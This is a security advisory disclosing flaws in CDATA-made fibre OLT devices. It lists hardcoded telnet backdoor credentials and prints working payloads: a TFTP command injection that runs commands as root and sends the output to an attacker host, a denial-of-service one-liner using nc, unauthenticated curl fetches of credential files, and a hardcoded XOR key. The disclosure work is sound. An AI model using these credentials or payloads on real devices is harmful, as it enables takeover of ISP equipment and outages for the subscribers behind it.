



The CDATA OLTs are OEM FTTH OLTs, sold under different brands (Cdata, OptiLink, V-SOL CN, BLIY), allowing to provide FTTH connectivity to a large number of clients (using ONTs). Some of the devices support multiple 10-gigabit uplinks and provide Internet connectivity to up to 1024 ONTs (clients).
We validated the vulnerabilities against FD1104B and FD1108SN OLTs in our lab environment with the latest firmware versions (V1.2.2 and 2.4.05_000, 2.4.04_001 and 2.4.03_000). 
Using static analysis, these vulnerabilities also appear to affect all available OLT models as the codebase is similar:
From the analyzed binaries, we extracted information about the OEM vendor:
CDATA
Flat 6, Bldg 4,South 2 of Honghualing Industrial Zone, Liuxian Road, Xili Town, Shenzhen, Guangdong, China(518055)
marketing@cdatatec.com
For explanation about FTTH architecture, you can check my previous research at http://pierrekim.github.io/blog/2016-11-01-gpon-ftth-networks-insecurity.html.
The summary of the vulnerabilities is:
A telnet server is running in the appliance and is reachable from the WAN interface and from the FTTH LAN interface (from the ONTs).
Depending on the firmware, the backdoor credentials may change. You can find below a complete list of backdoor (undocumented) credentials, giving an attacker a complete administrator CLI access.
Previous and old versions can be abused with:
login: suma123
password: panger123
New recent versions can be abused with:
login: debug
password: debug124
login: root
password: root126
login: guest
password: [empty]

The credentials have been extracted from old and new firmware images.
About the credentials, it depends on the vendors and the version of the firmware - the appearance of the CLI may be different but the access still works.
Using suma123/panger123:
$ telnet [ip]
********************************************************************
Command Line Interface for EPON System
Hardware Ver: V1.2
Software Ver: V1.2.2
Created Time: Mar 12 2018 06:54:24
Copyright (c) 2015-2020 All rights reserved.
********************************************************************
Username:panger123
Password:suma123
Entry Supperuer successfully!
epon@
alarm - setting system alarm
best-sys - configure sys information
epon-workmode - configure EPON working-mode
ethernet-ring - configure rapid ring
igmp-snooping - configure IGMP Snooping
interface - interface type
ipconfig - configure the system IP address
logout - exit the CLI system
mac-address-table - ctrl-card dynamic mac address table management
mirror - configure switch mirror
onu-auth - configure authentication mode for Olt
ping - net ping
port-isolate-group - create port-isolate-group, you must enable port-isolate-mode for group
rmon - configure RMON
rstp - rapid spanning tree protocol configuration
show - show system configuration
system - configure systerm
trunk - enter trunk config mode
undo - delete relational configuration
vlan - enter vlan config mode
epon@
Using guest/[empty]:
$ telnet [ip]
********************************************************************
Command Line Interface for EPON System
Hardware Ver: V3.2
Software Ver: 2.4.04_001
Created Time: Nov 27 2017 10:38:49
Copyright (c) 2006-2015 All rights reserved.
********************************************************************
Username:guest
Password:[empty]
epon#
--------------------------------------------------
Local Configuration Command
--------------------------------------------------
--------------------------------------------------
Global Command
--------------------------------------------------
broadcast - Write message to all users logged in
clear - Clear the screen
history - Show command history
logout - Log off this system
ping - Ping a network hosts
show - show system configuration
tracert - trace the route to host
tree - Show command tree
epon# show
--------------------------------------------------
Local Configuration Command
--------------------------------------------------
acl - Show ACL(s)
auth - show olt auth mode
dhcp-snooping - show dhcp snooping configurations
exec-timeout - show cli console timeout
igmp - show igmp snooping configurations
mac-address - mac-address
mac-address-table - show current port's mac address
mirror - show switch mirror configurations
olt - show olt's configuration
onu-position - show the position of onu by mac
qinq - show QinQ configuration
rmon - show RMON
rstp - Display RSTP information
running-config - show current running-configuration
startup-config - show current startup-configuration
swmode - show swmode
swport - display port attribute information
system - show system configuration
trunk - show trunk configuration
vlan - show vlan configuration
web - web server!
epon#
Using root/root126:
$ telnet [ip]
********************************************************************
Command Line Interface for EPON System
Hardware Ver: V3.2
Software Ver: 2.4.04_001
Created Time: Nov 27 2017 10:38:49
Copyright (c) 2006-2015 All rights reserved.
********************************************************************
Username:root
Password:root126
epon#
--------------------------------------------------
Local Configuration Command
--------------------------------------------------
acl - Create ACL(s)
acl-del - Delete ACL(s)
auth - configure authentication mode for Olt
btv - btv
cdt-sys - configure sys information
dhcp-snooping - configure DHCP Snooping
exec-timeout - set a timeout value
igmp - configure IGMP Snooping
mac-address - ctrl-card dynamic mac address table management
mirror - configure switch mirror
multicast-vlan - multicast-vlan <mvlan>
no - no
olt - configure OLT
reset - reset the values
rmon - configure RMON
rstp - rapid spanning tree protocol configuration
swmode - set basic switch mode
swport - enter switch port config mode
system - configure systerm
trunk - enter trunk config mode
vlan - enter vlan config mode
--------------------------------------------------
Global Command
--------------------------------------------------
broadcast - Write message to all users logged in
clear - Clear the screen
debug - debug
history - Show command history
logout - Log off this system
ping - Ping a network hosts
show - show system configuration
tracert - trace the route to host
tree - Show command tree
who - Display users currently logged in
epon#
Using debug/debug124:
$ telnet [ip]
********************************************************************
Command Line Interface for EPON System
Hardware Ver: V3.2
Software Ver: 2.4.04_001
Created Time: Nov 27 2017 10:38:49
Copyright (c) 2006-2015 All rights reserved.
********************************************************************
Username:debug
Password:debug124
epon#
--------------------------------------------------
Local Configuration Command
--------------------------------------------------
acl - Create ACL(s)
acl-del - Delete ACL(s)
auth - configure authentication mode for Olt
btv - btv
dhcp-snooping - configure DHCP Snooping
exec-timeout - set a timeout value
igmp - configure IGMP Snooping
mac-address - ctrl-card dynamic mac address table management
mirror - configure switch mirror
multicast-vlan - multicast-vlan <mvlan>
no - no
olt - configure OLT
reset - reset the values
rmon - configure RMON
rstp - rapid spanning tree protocol configuration
swmode - set basic switch mode
swport - enter switch port config mode
system - configure systerm
trunk - enter trunk config mode
vlan - enter vlan config mode
--------------------------------------------------
Global Command
--------------------------------------------------
broadcast - Write message to all users logged in
clear - Clear the screen
debug - debug
history - Show command history
logout - Log off this system
ping - Ping a network hosts
show - show system configuration
tracert - trace the route to host
tree - Show command tree
who - Display users currently logged in
epon#
With these access, an attacker can completely overwrite the configuration and overwrite the firmware.
For this part, we suppose the attacker has a working CLI access (which can be achieved using Backdoor access with telnet).
It is possible to extract administrator credentials by running this command in the CLI:
epon# show system infor
Web Server
Version : V1.2.0
BuildTime : 19-04-23
Administrator : LOGIN_CLEAR_TEXT
Password : PASSWORD_CLEAR_TEXT
For this part, we suppose the attacker has a working CLI access (which can be achieved using Backdoor access with telnet).
There is a command injection in the CLI allowing an attacker to execute commands as root.
The command injection is located in the TFTP download configuration part.
In our case, we used metasploit to start a TFTP server on 192.168.1.101 and to receive results of injected commands into this TFTP server:
$ msfconsole -q -x 'use auxiliary/server/tftp; run'
On the OLT:
epon# system configurations download olt 192.168.1.101 "$(cat /proc/cpuinfo > /tmp/test && tftp 192.168.1.101 put /tmp/test test)"
Uncompress file failed!
On the TFTP server running on the attacker machine, we receive the output of the command cat /proc/cpuinfo:
$ cat /tmp/test
system type : Broadcom BCM956218
processor : 0
cpu model : Broadcom BCM3302 V5.0
BogoMIPS : 299.00
wait instruction : no
microsecond timers : yes
tlb_entries : 32
extra interrupt vector : no
hardware watchpoint : no
ASEs implemented : mips16
VCED exceptions : not available
VCEI exceptions : not available
It is also possible to exfiltrate information using the embedded webserver:
On the OLT:
epon# system configurations download olt 192.168.1.101 "$(export > /opt/lighttpd/web/cgi/out.txt)"
On the attacker machine:
$ curl http://ip/cgi/out.txt
export HOME='/broadcom/'
export OLDPWD='/'
export PATH='/sbin:/usr/sbin:/bin:/usr/bin'
export PWD='/broadcom'
export SHELL='/bin/sh'
export TERM='vt102'
export USER='root'
Futhermore, everything is running as root in the appliance:
PID USER COMMAND
1 0 init
2 0 [ksoftirqd/0]
3 0 [events/0]
4 0 [khelper]
5 0 [kthread]
6 0 [kblockd/0]
7 0 [sysled]
8 0 [pdflush]
9 0 [pdflush]
10 0 [kswapd0]
11 0 [aio/0]
12 0 [mtdblockd]
13 0 {rcS} /bin/sh /etc/rcS
17 0 [jffs2_gcd_mtd5]
23 0 [bkncmd]
24 0 [bknevt]
26 0 fd1008s.dat
27 0 fd1008s.dat
28 0 fd1008s.dat
29 0 fd1008s.dat
30 0 fd1008s.dat
32 0 fd1008s.dat
33 0 fd1008s.dat
35 0 fd1008s.dat
36 0 fd1008s.dat
37 0 fd1008s.dat
38 0 fd1008s.dat
39 0 fd1008s.dat
40 0 fd1008s.dat
41 0 fd1008s.dat
42 0 fd1008s.dat
43 0 fd1008s.dat
44 0 fd1008s.dat
45 0 fd1008s.dat
46 0 fd1008s.dat
55 0 fd1008s.dat
56 0 fd1008s.dat
57 0 fd1008s.dat
58 0 fd1008s.dat
59 0 fd1008s.dat
60 0 fd1008s.dat
61 0 fd1008s.dat
64 0 fd1008s.dat
65 0 fd1008s.dat
66 0 fd1008s.dat
67 0 fd1008s.dat
68 0 fd1008s.dat
69 0 fd1008s.dat
70 0 fd1008s.dat
71 0 fd1008s.dat
72 0 fd1008s.dat
864 0 sh -c tftp 192.168.1.101 get $(ps a > /tmp/test && tftp 192.168.1.101 put /tmp/test test) /tmp/cfg_download.tar.gz
865 0 sh -c tftp 192.168.1.101 get $(ps a > /tmp/test && tftp 192.168.1.101 put /tmp/test test) /tmp/cfg_download.tar.gz
866 0 ps a
A telnet server is running in the appliance and is reachable from the WAN interface and from the FTTH LAN interface (from the ONTs).
Using our cutting-edge fuzzing technology based on IA, machine-learning and shawarma, we are able to reboot any OLT from this vendor using this command:
$ for i in $(seq 1 10); do cat /dev/urandom | nc 192.168.1.100 23 | hexdump -C;done
The device will reboot in the next 5 seconds and all the LEDs will blink like a Christmas tree!
A web server is running in the appliance and is reachable from the WAN interface and from the FTTH LAN interface (from the ONTs).
Without authentication, an attacker can extract web, telnet credentials and SNMP communities (read and write) by fetching these files:
/opt/lighttpd/web/cgi/snmp_read.txt
/opt/lighttpd/web/cgi/snmp_write.txt
/opt/lighttpd/web/cgi/web_login.txt
/opt/lighttpd/web/cgi/web_passwd.txt
/opt/lighttpd/web/cgi/onu_name.txt
/opt/lighttpd/web/cgi/oem.txt
Using curl:
$ curl http://ip/cgi/snmp_read.txt
$ curl http://ip/cgi/snmp_write.txt
$ curl http://ip/cgi/oem.txt
$ curl http://ip/cgi/onu_name.txt
$ curl http://ip/cgi/web_passwd.txt
$ curl http://ip/cgi/web_login.txt
A custom encryption algorithm is used to store encrypted passwords. This algorithm will XOR the password with the hardcoded value *j7a(L#yZ98sSd5HfSgGjMj8;Ss;d)(*&^#@$a2s0i3g as shown below:

By default, the appliance can be managed remotely only with HTTP, telnet and SNMP. It doesn't support SSL/TLS for HTTP or SSH. An attacker can intercept passwords sent in clear-text and MITM the management of the appliance.
EPON System
Optilink GEPON
Full-disclosure is applied as we believe some backdoors are intentionally placed by the vendor.
These vulnerabilities were found by Pierre Kim (@PierreKimSec) and Alexandre Torres.
https://pierrekim.github.io/advisories/2020-cdata-0x00-olt.txt
https://pierrekim.github.io/blog/2020-07-07-cdata-olt-0day-vulnerabilities.html
This advisory is licensed under a Creative Commons Attribution Non-Commercial Share-Alike 3.0 License: http://creativecommons.org/licenses/by-nc-sa/3.0/
published on 2020-07-07 00:00:00 by Pierre Kim <pierre.kim.sec@gmail.com>